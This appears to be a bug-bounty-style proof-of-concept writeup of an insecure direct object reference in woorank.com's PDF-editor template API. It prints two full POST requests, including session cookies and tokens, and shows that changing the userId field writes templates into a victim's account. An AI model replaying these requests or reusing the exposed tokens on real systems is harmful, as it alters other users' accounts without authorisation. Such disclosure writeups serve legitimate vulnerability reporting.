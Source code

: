 # (IDOR)Insecure Direct Object Request

Domain : `www.woorank.com`
Endpoint / vulnerable component : `https://www.woorank.com/en/pdf-editor`
Severity : `HIGH`

Proof of Concept / description
====
The First Step is Open

>https://www.woorank.com/en/pdf-editor

and add new template
I will name the template for example "test"

Request
------
````
POST /api/pdf-editor/templates HTTP/1.1
Host: www.woorank.com
User-Agent: Mozilla/5.0 (X11; Linux x8664; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.woorank.com/en/pdf-editor
content-type: application/json
Content-Length: 528
Cookie: PHPSESSID=8fc5cf451c7a60ca2b4253a374c3ca43; language=en; gamp-cid=1701db68-f15b-49a4-8ba8-b87a74d2b727; chatliouuid--34e85fcc-ffb9-4b5f-6df1-ab1b7d10fc0c=100548a5-0b2c-4e20-9a10-44e297bb5e18; chatliort--34e85fcc-ffb9-4b5f-6df1-ab1b7d10fc0c=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjZVVVSUQiOiIzNGU4NWZjYy1mZmI5LTRiNWYtNmRmMS1hYjFiN2QxMGZjMGMiLCJleHAiOjE2MzgwNTg5NDQsImlhdCI6MTU3NDk4Njk0NCwidnNVVUlEIjoiMTAwNTQ4YTUtMGIyYy00ZTIwLTlhMTAtNDRlMjk3YmI1ZTE4In0.LgDr61Wv4P2E74ZOOqh8C6PXD5KAGC552fdBpOgycGQ; chatlioat--34e85fcc-ffb9-4b5f-6df1-ab1b7d10fc0c=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjZVVVSUQiOiIzNGU4NWZjYy1mZmI5LTRiNWYtNmRmMS1hYjFiN2QxMGZjMGMiLCJleHAiOjE1NzQ5OTQxNDQsImlhdCI6MTU3NDk4Njk0NCwidnNVVUlEIjoiMTAwNTQ4YTUtMGIyYy00ZTIwLTlhMTAtNDRlMjk3YmI1ZTE4In0.RWgVjnxxcAwVDt-pIQ3CGtPIHLYfCrcrViJSPUAGPaY; smToken=vnNsFAkz2CT8FS9N6WxshaB0
DNT: 1
Connection: close

{"template":{"applyCustomCriteria":false,"keywordTool":{"enabled":true,"displayChart":true,"tableColumns":{"location":true,"volume":true,"competitors":true},"order":"keyword","filter":""},"closingPage":{"enabled":false,"customText":null},"colorScheme":{"primaryColor":["#2B5C86"],"secondaryColors":["#afe5e7","#539597","#29494a"]},"coverPage":null,"customCriteria":{},"displayScore":true,"externalLinks":true,"footer":null,"language":"en","name":"test","theme":"modern","shareWithSubusers":false,"size":"a4","userId":"1175202ATTACKER's userId "}}

````
![11](https://user-images.githubusercontent.com/50469661/136313230-205c1789-b694-4e5e-9057-82758852867d.png)

the Second step
I will create a new account to test the bug
And then get the userId of the new account

I will send the same request for the old account (the attacker's account) and the same cookies but we will change the value of userId to the value of the victim account
>The attacker's userId is: 1175202
The userId of the victim is: 1175206


I will switch the attacker's userId to the victim's userId with the attacker's privileges and cookies
New Request
-----
````
POST /api/pdf-editor/templates HTTP/1.1
Host: www.woorank.com
User-Agent: Mozilla/5.0 (X11; Linux x8664; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.woorank.com/en/pdf-editor
content-type: application/json
Content-Length: 528
Cookie: PHPSESSID=8fc5cf451c7a60ca2b4253a374c3ca43; language=en; gamp-cid=1701db68-f15b-49a4-8ba8-b87a74d2b727; chatliouuid--34e85fcc-ffb9-4b5f-6df1-ab1b7d10fc0c=100548a5-0b2c-4e20-9a10-44e297bb5e18; chatliort--34e85fcc-ffb9-4b5f-6df1-ab1b7d10fc0c=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjZVVVSUQiOiIzNGU4NWZjYy1mZmI5LTRiNWYtNmRmMS1hYjFiN2QxMGZjMGMiLCJleHAiOjE2MzgwNTg5NDQsImlhdCI6MTU3NDk4Njk0NCwidnNVVUlEIjoiMTAwNTQ4YTUtMGIyYy00ZTIwLTlhMTAtNDRlMjk3YmI1ZTE4In0.LgDr61Wv4P2E74ZOOqh8C6PXD5KAGC552fdBpOgycGQ; chatlioat--34e85fcc-ffb9-4b5f-6df1-ab1b7d10fc0c=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJjZVVVSUQiOiIzNGU4NWZjYy1mZmI5LTRiNWYtNmRmMS1hYjFiN2QxMGZjMGMiLCJleHAiOjE1NzQ5OTQxNDQsImlhdCI6MTU3NDk4Njk0NCwidnNVVUlEIjoiMTAwNTQ4YTUtMGIyYy00ZTIwLTlhMTAtNDRlMjk3YmI1ZTE4In0.RWgVjnxxcAwVDt-pIQ3CGtPIHLYfCrcrViJSPUAGPaY; smToken=vnNsFAkz2CT8FS9N6WxshaB0
DNT: 1
Connection: close

{"template":{"applyCustomCriteria":false,"keywordTool":{"enabled":true,"displayChart":true,"tableColumns":{"location":true,"volume":true,"competitors":true},"order":"keyword","filter":""},"closingPage":{"enabled":false,"customText":null},"colorScheme":{"primaryColor":["#2B5C86"],"secondaryColors":["#afe5e7","#539597","#29494a"]},"coverPage":null,"customCriteria":{},"displayScore":true,"externalLinks":true,"footer":null,"language":"en","name":"hacked+by+caesareg+test 1","theme":"modern","shareWithSubusers":false,"size":"a4","userId":"1175206VICTEM's userId "}}


````

![12](https://user-images.githubusercontent.com/50469661/136313391-04a99d84-a2f1-4592-b746-85308fa6f8ef.png)

DONE !!
The templates have been added to the victim's account without his permission

![13](https://user-images.githubusercontent.com/50469661/136313448-cbf11862-be50-471e-9179-fef617b09800.png)

Impact
----
Add templates to any account without permission from the author
Send new templates to all site users



